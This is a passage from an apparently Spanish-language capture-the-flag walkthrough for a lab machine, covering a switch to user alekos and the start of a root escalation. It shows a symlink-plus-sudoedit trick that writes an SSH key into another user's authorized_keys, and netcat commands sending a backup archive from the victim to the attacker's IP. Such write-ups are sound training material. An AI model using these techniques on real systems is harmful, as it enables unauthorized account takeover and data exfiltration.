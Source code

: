 1. Creamos un enlace symbolico contra el **authorized_keys** del usuario alekos

    ```bash
    ln -s -f /home/alekos/.ssh/authorized_keys layout.html
    ```

1. Nos creamos un par de claves

    ```bash
    ssh-keygen
    ```

1. Lanzamos el **sudoedit** y copiamos la clave publica creada
1. Nos conectamos al usuario alekos por ssh

    ```bash
    ssh -i id-rsa alekos@10.10.10.21
    ```

Pa dentro... somos alekos y podemos leer la flag.

### Escalada de privilegios al usuario root {-}

```bash
id
sudo -l
ls -l
```

vemos que hay dos directorios 

- backup
- development

```bash
cd backup
stat *
stat * | grep "Modify"
```

En el directorio backup vemos que cada 5 minutos una tarea que se esta ejecutando a intervalos regulares de tiempo nos crea un archivo de backup.
Ahora tenemos que saber lo que se esta poniendo en estos backups.

1. En la maquina de atacante

    ```bash
    nc -u -nlvp 443 > dev-1627332901.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc -u 10.10.14.20 443 < dev-1627332901.tar.gz
    ```

mirando el contenido de fichero comprimido, nos damos cuenta que el contenido es el mismo que el directorio development.
